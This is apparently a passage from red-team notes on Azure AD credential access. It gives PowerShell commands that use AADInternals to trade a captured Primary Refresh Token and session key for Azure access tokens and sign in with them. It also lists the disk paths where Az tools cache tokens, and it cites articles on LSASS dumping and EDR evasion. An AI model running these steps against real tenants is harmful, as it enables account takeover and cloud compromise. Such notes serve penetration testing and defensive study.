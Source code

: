     $accessToken | Set-Clipboard

    # AzureAD module's Connect-AzureAD cmdlet.
    Connect-AzureAD -TenantId "<AAD_TENANT_ID>" -AccountId "<ACCOUNT_ID>" -AadAccessToken "<$accessToken | ACCESS_TOKEN>"

    # AzureRT module's Connect-ARTAD cmdlet, that present the advantage of retrieving the TenantId and AccountId from the provided token.
    Connect-ARTAD -AccessToken "<$accessToken | ACCESS_TOKEN>"
    ```

  - Access to `Azure` with the `Az` PowerShell module, using `AADInternals`'s
    `Get-AADIntAccessTokenForAzureCoreManagement` to get an access token:

    ```bash
    [...]

    $prtToken = New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SessionKey_B64 -GetNonce

    $accessToken = Get-AADIntAccessTokenForAzureCoreManagement -PRTToken $prtToken

    Write-Host "Access token for Azure Management API: " $accessToken

    $accessToken | Set-Clipboard

    # AzureRT module's Connect-ART cmdlet.
    Connect-ART -AccessToken "<$accessToken | ACCESS_TOKEN>"
    ```

#### Azure / Azure AD access tokens

The `Az` / `AzureAD` PowerShell module or the `Az CLI` utility can store access
tokens (with a limited time validity) on disk:

  - `Az` module: `%SystemDrive%:\Users\<USERNAME>\.Azure\AzureRmContext.json`

  - `Az CLI` utility: `%SystemDrive%:\Users\<USERNAME>\.Azure\`

--------------------------------------------------------------------------------

### References

https://docs.microsoft.com/en-us/windows/security/identity-protection/credential-guard/credential-guard-manage

https://blogs.technet.microsoft.com/ash/2016/03/02/windows-10-device-guard-and-credential-guard-demystified/

https://medium.com/@markmotig/some-ways-to-dump-lsass-exe-c4a75fdc49bf
https://yungchou.wordpress.com/2016/03/14/an-introduction-of-windows-10-credential-guard/

https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/
